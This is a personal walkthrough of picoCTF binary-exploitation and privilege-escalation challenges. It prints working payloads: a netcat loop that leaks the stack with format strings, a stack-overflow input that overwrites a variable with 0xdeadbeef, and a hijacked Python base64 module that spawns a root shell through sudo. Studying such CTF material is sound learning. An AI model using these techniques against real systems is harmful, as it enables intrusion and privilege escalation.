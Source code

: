 buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

We know it's a buffer overflow, so typing long enough strings _should_ work.
And it does ! but why ?

All you really need to look at is here:

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

The `sigsegv_handler` function is called when a segmentation fault occurs. A bit of googling reveals that
it the ``strcpy`` can cause the sigsev (writing outta bounds). So we just input a string b/w (16,100) and make it overflow.

# format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}`

Didn't even download the binary - reading the title, you can assume that
they _will_ be having raw printfs() without format strings. Choose the options that have a fstring embedded within them
and you get the flag. The segfault is due to trying to parse non string bytes as bytes, of course.

# Flag leak

**Flag:** `picCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}`

again, easily assume it is an fstrings issue, again.

After verifing with %s, I started smashing %s in hopes that I could leak the stack directly.
This obviously didn't work

After some talking with chatgpt, I learned about stack offsets and cooked up a small script myself to attack the stack -
```zsh
for i in {1..29}; do echo %"$i"\$s | nc saturn.picoctf.net 53300
done
```
which gave me
```
Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
```

missed the pico part as it probably wasn't properly aligned. What do you do if part of the flag was stuck there ?

No real clue, but $i%x is probably the way, if I had to guess.

# two-sum

**Flag:** `picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_482d8fc4}`

Another cheesy challenge really, but here you go -
The chall asks for n1 > n1 + n2 - obviously n1 must overflow.
Find out that a c int uses 4 bytes and calculate approximate overflow values -
2147483647 2

and type it in and get the flag

# clutter-overflow

**Flag:** `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

So we have access to a server via netcat:

```
> nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|

| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
```

We _do_ have acess to the source code, but we will be doing it blind here.

(At least I did it blind :P - do whatever you wish)

lets try some random input:
```
...
What do you see?
pizzas ?
code == 0x0
code != 0xdeadbeef :(
```

Not pizzas, it seems. Sad.

Anyways, looking at the `code` that it talks about, it's probbaly a value on the stack. Lets find out how much we need to
jump manually via some binary search.

`0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef0xdeadbeef1111`
is that magic string for us. anything over that modifies the `code` int. write it into a file, say called eep.

Now to reproduce the 0xdeadbeef string. Commonly used as a magic value, this should be easy right ?

Well, nope. The main gotcha comes in the fact that while uints on a device is generally in lil endian, and strings are not.
So just pulling up your favorite hex editor and screaming `DEADBEEF` will not do the trick. What you can do is either manually
covert it into `EFBEADDE`, it's compliment or do a quick c sinppet:

```c
#include <stdio.h>

int main() {
	unsigned int value = 0xDEADBEEF;

	// Cast the integer to a char pointer to access da bytes
	unsigned char *bytes = (unsigned char *)&value;

	for (int i = 0; i < sizeof(value); i++) {
		printf("%c", bytes[i]);
	}
}
```

which gives you the same thing. The output is `ﾭ�` if you are curious. Write that to a file, say weep.

Now we do -
```zsh
(cat ./eep; cat ./weep; echo "" ) | nc mars.picoctf.net 31890
```

and get a beautiful -
```
...
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

This one is easy to make mistakes on, took me a few hours really. Has a lil less than 4k solves.

# hijacking

**Flag:** `picoCTF{picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`

We have a server with ssh access. yay !

`kitten ssh picoctf@saturn.picoctf.net -p 64142`

Hm, snoop around for a bit and it seems like a very standard ubuntu setup. With the lack of stuff like curl and ping though.
Before going nuclear with linpeas or so, the desciption talks about a python server file, which `ls -lah` promptly reveals.
The file is owned by root too.

Now we have a look at it -
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Weird stuff. dosent look like what it actually does is anything relavant though.
Well, it's owned by root. Can we execute it as root ?

```sh
picoctf@challenge:~$ sudo python3 ~/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

(You can either guesswork the exact string that sudo's filters allow, or use sudo -l btw). Anyways. I see a distict
lack of a ping command. PATH manipulation ?

```sh
....(after some work)
picoctf@challenge:~$ sudo -E python3 ~/.server.py
sudo: sorry, you are not allowed to preserve the environment
```

Oh well. so we have to directly attack the modules. snoop around `/usr/lib/python3.8` and we find a r/w accessable base64.py.
Add some commands -

```py
import os
print('Hello World!')
os.system('whoami')
os.system('bash')
...
```

now snoop around a bit and find the file at /root/.flag.txt !
